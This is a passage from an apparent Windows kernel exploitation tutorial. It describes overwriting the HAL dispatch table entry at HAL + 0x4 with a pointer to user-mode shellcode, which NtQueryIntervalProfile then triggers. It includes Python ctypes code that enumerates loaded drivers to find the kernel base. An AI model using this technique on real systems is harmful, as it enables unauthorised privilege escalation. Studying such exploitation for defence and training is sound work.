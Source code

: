 `uf nt!KeQueryIntervalProfile`:

<img src="{{ site.url }}{{ site.baseurl }}/images/ARB6.png" alt="">

Essentially, the address at HAL + 0x4, is passed via `KeQueryIntervalProfile()`. If we can overwrite that pointer with a pointer to our user mode shellcode, natural execution will eventually execute our shellcode, when `NtQueryIntervalProfile()` (which calls `KeQueryIntervalProfile()`) is called!

Order Of Operations
---
Here are the steps we need to take, in order for this to work:

1. Enumerate all drivers addresses via [EnumDeviceDrivers()](https://docs.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-enumdevicedrivers?redirectedfrom=MSDN)
2. Sort through the list of addresses for the address of `ntkornl.exe` (`ntoskrnl.exe` exports `KeQueryIntervalProfile()`)
3. Load `ntoskrnl.exe` handle into [LoadLibraryExA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexa) and then enumerate HAL address via [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)
4. Once HAL address is found, we will calculate the address of HAL + 0x4 (by adding 4 bytes), and overwrite that pointer with a pointer to our user mode shellcode

EnumDeviceDrivers()
---
```python
# Enumerating addresses for all drivers via EnumDeviceDrivers()
base = (c_ulong * 1024)()
get_drivers = psapi.EnumDeviceDrivers(
    byref(base),                      # lpImageBase (array that receives list of addresses)
    c_int(1024),                      # cb (size of lpImageBase array, in bytes)
    byref(c_long())                   # lpcbNeeded (bytes returned in the array)
)

# Error handling if function fails
if not base:
    print "[+] EnumDeviceDrivers() function call failed!"
    sys.exit(-1)
```

This snippet of code enumerates the base addresses for the drivers, and exports them to an array. After the base addresses have been enumerated, we can move on to finding the address of `ntoskrnl.exe`

ntoskrnl.exe
---
```python
# Cycle through enumerated addresses, for ntoskrnl.exe using GetDeviceDriverBaseNameA()
for base_address in base:
    if not base_address:
        continue
    current_name = c_char_p('\x00' * 1024)
    driver_name = psapi.GetDeviceDriverBaseNameA(
        base_address,                 # ImageBase (load address of current device driver)
        current_name,                 # lpFilename
        48                            # nSize (size of the buffer, in chars)
    )

    # Error handling if function fails
    if not driver_name:
        print "[+] GetDeviceDriverBaseNameA() function call failed!"
        sys.exit(-1)

    if current_name.value.lower() == 'ntkrnl' or 'ntkrnl' in current_name.value.lower():

        # When ntoskrnl.exe is found, return the value at the time of being found
        current_name = current_name.value
```